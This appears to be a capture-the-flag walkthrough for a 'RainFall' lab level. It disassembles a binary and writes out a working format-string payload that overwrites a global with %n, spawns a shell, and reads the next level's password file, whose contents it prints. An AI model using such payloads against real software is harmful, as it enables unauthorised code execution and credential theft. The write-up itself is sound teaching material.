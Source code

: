 [README](../README.md)
# level3

## GDB Disassembly
### Main
```
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave  
0x08048526 <+12>:	ret  
```

Function prologue and then call the function v.

### Function v
```
0x080484a4 <+0>:	push   %ebp
0x080484a5 <+1>:	mov    %esp,%ebp
0x080484a7 <+3>:	sub    $0x218,%esp
0x080484ad <+9>:	mov    0x8049860,%eax
0x080484b2 <+14>:	mov    %eax,0x8(%esp)
0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
0x080484be <+26>:	lea    -0x208(%ebp),%eax
0x080484c4 <+32>:	mov    %eax,(%esp)
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
0x080484cc <+40>:	lea    -0x208(%ebp),%eax
0x080484d2 <+46>:	mov    %eax,(%esp)
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
0x080484e2 <+62>:	jne    0x8048518 <v+116>
0x080484e4 <+64>:	mov    0x8049880,%eax
0x080484e9 <+69>:	mov    %eax,%edx
0x080484eb <+71>:	mov    $0x8048600,%eax
0x080484f0 <+76>:	mov    %edx,0xc(%esp)
0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
0x080484fc <+88>:	movl   $0x1,0x4(%esp)
0x08048504 <+96>:	mov    %eax,(%esp)
0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:	movl   $0x804860d,(%esp)
0x08048513 <+111>:	call   0x80483c0 <system@plt>
0x08048518 <+116>:	leave  
0x08048519 <+117>:	ret  
```

- Reads input from the user using `fgets`
- Print the input using printf
- Compare the value stored in `0x804988c` to the value `$0x40`
- if the comparison is equal the program execute a `system` call
- otherwise exit

#### Global variable
```
(gdb) info variables
    0x0804988c  m
(gdb) x/d 0x804988c
    0x804988c <m>:	0
```

## Exploit
We need to find a way to overwrite the value of the variable `m` located at `0x804988c`.
It may be possible to exploit format string vulnerabilities in the `printf` call to overwrite memory.

If we try to input format specifiers in the program, we can see that the input is not properly sanytized.
The program prints the values currently on the stack.
```
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```


**`%n` format specificer:**
The %n format specifier in printf does not output anything itself. Instead, it writes the number of characters printed so far to a memory location specified by an argument.
```
printf("%n", &integer_variable);
```
- `%n``: Format specifier to write the number of characters printed so far.
- `&integer_variable`: Pointer to an integer variable where the count of characters printed so far will be written.

**Writing the variable `m`:**
We need to edit the value stored at `0x804988c` with a value of `0x40` = `64` in decimal

- Memory location: `"\x8c\x98\x04\x08"`

We try to input the adress of `m` and print the addresses of the stack using `%x` format.
We see that the address lands on the 4th byte
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3 
� 200 b7fd1ac0 b7ff37d0 804988c 20782520 25207825 78252078
```

**Crafting the payload:**
We need to write a total of 64 bytes and use the `%n` format to output to the variable `m`

`%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of “AAAA” equals 4) at the address pointed by %n.
- We can specify a postion to read/write on the stack with `%<num>$n`
- We need to set the value of m to 64, so we add 60 bytes of arbitrary data.

```
\x8c\x98\x04\x08   AAAAAAAA...AAAA    %4$n
|----------------|------------------|
    Address of        Padding        Format Specifier
    variable m
```

```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Ressources
[OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
[Exploit 101 - Format Strings - BreakInSecurity](https://axcheron.github.io/exploit-101-format-strings/)
